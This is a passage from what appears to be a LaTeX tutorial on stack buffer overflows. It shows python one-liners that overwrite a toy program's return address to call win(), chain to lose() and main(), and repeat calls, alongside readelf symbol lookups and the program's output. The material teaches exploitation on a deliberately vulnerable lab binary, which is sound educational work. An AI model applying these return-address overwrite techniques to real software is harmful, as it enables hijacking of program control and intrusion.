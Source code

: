 \documentclass{article}
\begin{document}
As expected, we were able to successfully overwrite the return address with the
address of \texttt{win()}. This caused \texttt{win()} to execute after the
program returned from \texttt{main()}. Verify that this works outside of
\texttt{gdb} as well.

\begin{lstlisting}
> python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00'" | ./ret_overwrite 
Enter the password:
You don't have permission to perform this action.
Access granted.
Segmentation fault
> 
\end{lstlisting}

You'll notice that the program crashes after returning from \texttt{win()}. This
is because \texttt{win()} expects a return address on top of the stack when it
is called, but when we call it only a null pointer is there. If we were to put a
valid address there, say the address of \texttt{lose()}, the instructions at
that address would be called after the program returns from \texttt{win()}.

\begin{lstlisting}
> readelf --symbols ./ret_overwrite | grep lose
    51: 00000000004005f8    17 FUNC    GLOBAL DEFAULT   14 lose
> python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00' + '\xf8\x05\x40\x00\x00\x00\x00\x00'" | ./ret_overwrite 
Enter the password:
You don't have permission to perform this action.
Access granted.
Invalid auth token.
Segmentation fault
> 
\end{lstlisting}

We can do this as many times as we want. The more valid return addresses we
write to the stack, the more functions will be called after we exit from
\texttt{main()}. Note however that the base pointer was clobbered during the
overflow, so any functions (such as \texttt{main()}) that use it to access local
variables will almost certainly crash.

\begin{lstlisting}
> python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00' * 10" | ./ret_overwrite 
Enter the password:
You don't have permission to perform this action.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Segmentation fault
> readelf --symbols ./ret_overwrite | grep main
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.2.5 (2)
    55: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
    66: 0000000000400609   127 FUNC    GLOBAL DEFAULT   14 main
> python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00' + '\x09\x06\x40\x00\x00\x00\x00\x00'" | ./ret_overwrite 
Enter the password:
You don't have permission to perform this action.
Access granted.
Segmentation fault
\end{lstlisting}
\end{document}
